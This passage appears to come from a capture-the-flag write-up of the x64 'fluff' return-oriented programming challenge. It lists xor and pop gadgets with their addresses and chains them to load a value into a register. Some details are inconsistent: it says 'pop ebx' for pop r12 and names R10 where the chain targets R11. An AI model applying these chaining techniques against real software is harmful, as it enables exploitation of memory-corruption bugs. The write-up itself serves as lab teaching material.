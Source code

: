 <a href="/assets/img/2020-02-17-Fluff-x64/xor-r11-r12.png"><img src="/assets/img/2020-02-17-Fluff-x64/xor-r11-r12.png"></a>

The gadget at 0x0040082f performs the xor operation on R11 and R12.
If a value is loaded into R12 and xor'd with R11 (if R11 is set to zero), R11 will contain the original value set in R12 before the operation.  
```x64asm
0x0040082f      xor r11, r12
0x00400832      pop r12
0x00400834      mov r13d, 0x604060 ; '`@`'
0x0040083a      ret
```
Searching for pop ebx returns many results.

<a href="/assets/img/2020-02-17-Fluff-x64/pop-r12.png"><img src="/assets/img/2020-02-17-Fluff-x64/pop-r12.png"></a>
```x64asm
0x004008bc      pop r12
0x004008be      pop r13
0x004008c0      pop r14
0x004008c2      pop r15
0x004008c4      ret
```
The gadget at 0x004008bc will pop the next 8 bytes on the stack into R12.

Combined, the mentioned gadgets will load a value into R10 with the following sequence:  
```x64asm
StepOne:
    pop r12 ; load value on stack into R12
    pop r13
    pop r14
    pop r15
    ret
StepTwo:  
    xor r11, r11 ; zero out the R11 register
    pop r14
    mov edi, data_start
    ret
StepThree:  
    xor r11, r12 ; the xor operation will xor the contents of R12 into R11
    pop r12
    mov r13d, 0x604060 ; '`@`'
```